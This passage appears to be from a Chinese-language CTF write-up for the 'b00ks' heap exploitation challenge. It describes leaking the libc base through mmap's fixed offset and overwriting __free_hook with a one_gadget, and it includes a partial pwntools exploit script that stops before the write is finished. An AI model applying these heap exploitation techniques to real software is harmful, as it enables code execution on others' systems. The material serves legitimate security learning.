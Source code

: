 ![image-20210410120951639](image-20210410120951639.png)

从而可以推算出任意chunk的地址

### 思路1：利用mmap特性leak基地址

同时由于mmap 在申请一块超级大内存时,会单独映射一块内存而不是从top chunk划分.这个内存地址与libc的基地址的相对地址是不变的.因此我们可以创建在第二个book时用mmap申请两个chunk.再通过fake打印第二个book chunk中保存地址从而获得libc基地址.

![image-20210410113701106](image-20210410113701106.png)

我们再利用fake chunk的内容修改book2 chunk 的里description chunk地址修改为`__free_hook`的地址,这样我们在编辑book2 description时,其实是在向`__free_hook`写入内容.我们可以用此方法写入one_gadget.

（`__free_hook`的地址我们可以在gdb中，用`x/36gx &__free_hook`来找到`__free_hook`的地址。）

再通过free来触发。

#### exp

```python
from pwn import *

e=ELF('./b00ks')
p=process('./b00ks')
p.sendline('s'*0x20)
def add(ns,na,ds,da):
	p.sendline('1')
	p.sendlineafter('name size:',str(ns))
	p.sendlineafter('name',na)
	p.sendlineafter('description size',str(ds))
	p.sendlineafter('description',da)
def edit(num,da):
	p.sendline('3')
	p.sendlineafter("edit",str(num))
	p.sendlineafter('description',da)
def echo():
	p.sendline('4')

def free(num):
	p.sendline('2')
	p.sendline('num')

def change(name):
	p.sendline('5')
	p.sendlineafter('name',name)

#泄露book1 chunk addr
add(0xd0,'a'*0x10,0x20,'cba')
add(0x42000,'b'*0x10,0x42000,'cba')
echo()
p.recvuntil('Author: ssssssssssssssssssssssssssssssss')
x=p.recv(6).ljust(8,"\00")
print(hex(u64(x)))
book1=u64(x)
book2=book1+0x30
log.info('book1_dr:'+hex(book1))
log.info('book2_dr:'+hex(book2))
#通过mmap 泄露出基地址
fake=p64(1)+p64(book2+0x8)*2+p64(0x20)
edit(1,fake)
change('A'*0X20)
echo()
p.recvuntil('Name: ')
x=p.recv(6).ljust(8,"\00")
```